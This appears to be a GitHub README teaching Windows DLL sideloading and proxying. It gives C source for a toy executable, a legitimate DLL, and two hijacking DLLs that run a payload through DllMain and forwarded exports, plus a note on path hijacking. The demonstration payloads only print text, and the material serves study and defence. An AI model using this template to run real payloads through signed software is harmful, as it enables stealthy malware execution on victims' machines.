





Sideloading involves exporting the functions that the .exe is utilizing from the DLL we are hijacking. This way, we can prevent the software from crashing. One advantage of DLL Sideloading is that we use a legitimate and signed application to execute our malicious payload, significantly increasing our chances of success. Another approach to further enhance our hijacking is to apply DLL Proxying, where we create a bridge to the original DLL function, ensuring that the application encounters no issues when using the specific functionality that relies on this exported function.

SafeDllSearchMode is the order set by Windows to search for a DLL during the loading process by the Windows DLL Loader. We can leverage this order for our activities. Now, let's see what SafeDllSearchMode looks like.



We cannot hijack DLLs that are in the Known DLLs folder, but from that point onward, there is an opportunity. If we have privileges in the directory where the executable is being run, we can carry out the hijacking.

# Proof of concept ( POC )

In this first step, we'll provide a practical introduction to how DLL Sideloading + Proxying works within a software designed specifically for illustrative purposes. Below, I'll outline the project's structure.

## Project Structure

```
.
├── Bin
│   ├── Custom_Software.exe
│   ├── Dll_Legit1.dll
│   └── Dll_Legit.dll
├── Makefile
└── Sources
    ├── Custom_Software.c
    ├── Dll_Legit.c
    ├── Dll_Mal_Foward.c
    ├── Dll_Mal_Foward.def
    └── Dll_Mal_NoFoward.c
```

The project is organized with each program in C compiling into a separate, distinct file.

- Custom_Software: This software is responsible for loading the DLL and executing its function.
- Dll_Legit: This file is responsible for generating the legitimate DLL that will be loaded by the Custom_Software.
- Dll_Mal_Foward: This file is responsible for generating the DLL that will perform the sideloading + proxying and execute the payload using Foward.
- Dll_Mal_NoFoward: This file is responsible for generating the DLL that will perform the sideloading + proxying and execute the payload dont using Foward.
- Dll_Mal_Foward.def: This file is responsible for define Foward functions.

## Custom Software

```c
#include <windows.h>

typedef PCHAR(*fnRetStr)();

int main(){
    HMODULE  hLegitDll = LoadLibraryA("Dll_Legit.dll");
    fnRetStr pRetStr   = (fnRetStr)GetProcAddress( hLegitDll, "RetStr" ); 
    PCHAR    Str       = pRetStr();
    
    printf(Str);

}
```

## Dll_Legit

```c
#include <windows.h>

#define DLLEXPORT extern __declspec(dllexport)

DLLEXPORT PCHAR RetStr(){
    PCHAR  LegitStr = "[I] Run Legit Print :D\n";
    return LegitStr;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        printf("[I] Attach Legit DLL\n");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Dll_Legit only performs prints, one when the Dll is Attached to a process and another when the exported function is used by our Custom Software.

---------------------------

## Dll_Mal_NoFoward

```c
#include <windows.h>

/*---------------------------[ Payload ]---------------------------*/

void ProcAtt(){

	printf("[I] DLL Sideloading in PROCESS ATTACH >:)\n");

}

void InFuncExp(){

	printf("[I] DLL Sideloading in Exported Function >:)\n");
	
}

/*---------------------------[ DLL Proxying ]---------------------------*/

#define DLLEXPORT extern __declspec(dllexport)

typedef PCHAR (WINAPI* fnRetStr)();

DLLEXPORT PVOID RetStr(){
    
    InFuncExp();

    HMODULE  hDll    = LoadLibraryA("Dll_Legit1.dll");
    fnRetStr pRetStr = (fnRetStr)GetProcAddress( hDll, "RetStr" );

    return (PVOID)pRetStr();
}

/*---------------------------[ DllMain ]---------------------------*/

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
		ProcAtt();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## Dll_Mal_Foward

```c
#include <windows.h>

/*---------------------------[ Payload ]---------------------------*/

void ProcAtt(){

	printf("[I] DLL Sideloading in PROCESS ATTACH >:)\n");

}


/*---------------------------[ DllMain ]---------------------------*/

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
		ProcAtt();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

# Two ways to Proxying

There are two ways to perform proxying: Forwarding or NoForwarding.

## Foward

One of the two ways to perform Proxying is through Dll_Mal_Foward, which utilizes the Dll_Mal_Foward.def file in compilation for function forwarding. Below is the content of the Dll_Mal_Foward.def file.

```
LIBRARY "Dll_Legit"
EXPORTS
    RetStr=Dll_Legit1.RetStr @1
```

When we proxy using forwarding, the difference is that it will only be possible to execute the payload through DllMain. In this case, I'm using DLL_PROCESS_ATTACH, and statically as follows:



Now, when we execute the Custom_Software, the following result will be displayed:



## NoFoward

We have two ways to load the payload: adding it inside the function that will be proxied and within DLL_PROCESS_ATTACH. Both methods have been implemented in this version. The proxying is straightforward: the exported function will load and return the address of the legitimate function, allowing it to be executed normally. Statically, as follows:


Now, when we execute the Custom_Software, the following result will be displayed:



# Observation

It's also possible to perform sideloading through DLL path hijacking. Imagine we have the original DLL, Dll_Legit.dll, located at C:\Windows\System32\Dll_Legit.dll. We can upload our DLL to the same path as Dll_Legit and specify the absolute path in our malicious implementation. The prerequisite for this would be to check in Process Monitor if it generates a NAME NOT FOUND result with the following filter shown below:



# [Github Repository](https://github.com/Entropy-z/DLL_Sideloading_Proxying)